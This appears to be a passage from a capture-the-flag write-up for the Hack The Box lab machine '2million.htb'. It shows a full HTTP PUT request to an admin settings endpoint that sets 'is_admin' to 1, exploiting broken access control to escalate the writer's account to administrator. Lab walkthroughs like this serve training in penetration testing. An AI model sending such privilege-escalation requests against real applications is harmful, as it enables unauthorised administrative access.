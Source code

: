 ![image](Screenshot_13.png)

Well, it looks like it wants a 0 or a 1, so we will put on a 1.

The complete request looks like this:

```html
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=6s1sblkhjjpoq9t9ms5b8pv48b
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 53
{
"email": "dennis@dennis.com",
"is_admin": 1
}
```

